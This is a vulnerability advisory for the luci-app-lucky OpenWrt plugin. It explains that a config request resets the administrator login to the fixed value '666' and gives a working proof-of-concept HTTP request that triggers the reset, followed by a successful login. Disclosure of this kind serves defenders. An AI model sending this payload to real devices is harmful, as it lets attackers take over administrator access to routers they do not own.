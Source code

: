 ## luci-app-lucky OpenWrt plugin has a hardcoded credentials vulnerability

Affected product:  *luci-app-lucky* <= 2.8.3

### Product Information

project: https://github.com/gdy666/luci-app-lucky

Location of the vulnerability: https://github.com/gdy666/luci-app-lucky/blob/main/luci-app-lucky/luasrc/controller/lucky.lua

### Vulnerability Description


When handling the `lucky_set_config` request, if the `key` is `reset_auth_info`, the function resets the dministrator account and password to the fixed value `666`. This leads to a hardcoded credentials vulnerability, allowing attackers to log into the administrator system using the default account and password.

![4](img/4.png)

### Verify

Before the attack, set the account to `admin` and the password to `hrgdsf`. Attempt to log in to the backend management system using the account `666` and password `666`,, which results in a login failure. 

![5](img/5.png)

Then, create the following payload and execute the attack. 

```http
GET /cgi-bin/luci/admin/services/lucky_set_config/key?=reset_auth_info HTTP/1.1
Host: 192.168.187.101
Connection: close
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=391b3d3f6a57bc952ba4e63debe32ab3
```

Successfully change the account to `666` and the password to `666`. 

![6](img/6.png)

 Verify the result, and the login is successful.

![7](img/7.png)